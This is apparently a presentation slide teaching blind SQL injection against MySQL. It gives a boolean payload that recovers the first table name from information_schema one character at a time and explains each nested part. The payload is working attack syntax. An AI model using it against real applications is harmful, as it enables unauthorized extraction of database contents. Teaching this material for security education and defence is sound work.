

# Example
Select ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=97
(select table_name from information_schema.tables where table_schema=database() limit 0,1) returns you the first table name
substring((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1) returns you the first character of the table name
ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)) returns you the ascii value of the first character
Select ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=97 returns you 1 if the table name starts with a otherwise it returns 0
Source: https://lakshmi993.medium.com/blind-sql-injection-mysql-data-base-d2f35afbc451